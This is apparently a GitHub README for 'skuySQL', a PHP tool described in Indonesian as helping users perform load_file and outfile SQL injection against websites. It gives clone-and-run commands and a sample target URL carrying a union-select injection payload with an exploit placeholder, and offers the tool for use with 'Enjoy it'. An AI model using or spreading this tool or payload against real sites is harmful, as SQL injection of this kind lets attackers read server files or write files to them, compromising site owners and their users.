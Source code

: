 # skuySQL

Membantu anda untuk melakukan Injeksi load_file pada POC SQL Outfile

usage : <br>
$ git clone https://github.com/indosecid/skuySQL.git <br>
$ cd skuySQL <br>
$ php skuySQL.php <br>
$ enter your target : https://domain.com/detail.php?id=-1' union select 1,2,{exploit},4-- -<br><br>

and Enjoy it...
